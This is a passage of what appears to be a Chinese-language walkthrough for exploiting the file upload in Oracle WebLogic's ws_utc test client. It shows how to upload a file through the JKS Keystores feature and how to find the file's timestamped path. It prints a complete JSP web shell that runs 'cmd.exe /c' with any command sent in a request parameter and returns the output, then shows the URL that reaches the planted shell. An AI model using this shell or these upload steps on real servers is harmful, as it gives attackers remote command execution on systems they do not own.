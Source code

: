 可以将当前的工作目录为更改为其他目录。以本地环境为例，可以部署到

```
C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain\servers\AdminServer\tmp\_WL_internal\com.oracle.webservices.wls.ws-testclient-app-wls\4mcj4y\war 
```

选择右边的安全栏目，添加JKS Keystores上传文件。假设chybeta.jsp内容如下：

```
<%@ page import="java.util.*,java.io.*,java.net.*"%>
<HTML><BODY>
<FORM METHOD="POST" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "\n<br>");
        Process p = Runtime.getRuntime().exec("cmd.exe /c " + request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); disr = dis.readLine(); }
        }
%>
</pre>
</BODY></HTML> 
```

抓包获取到时间戳为1531987145013，则上传到的位置即config\keystore\1531987145013_chybeta.jsp

![image](img/93acf34294360d86c76a5aa05c2dcf92.png)

访问http://localhost:7001/ws_utc/config/keystore/1531987145013_chybeta.jsp

![image](img/235b3dc61590df7c22ad8efd97bb262a.png)

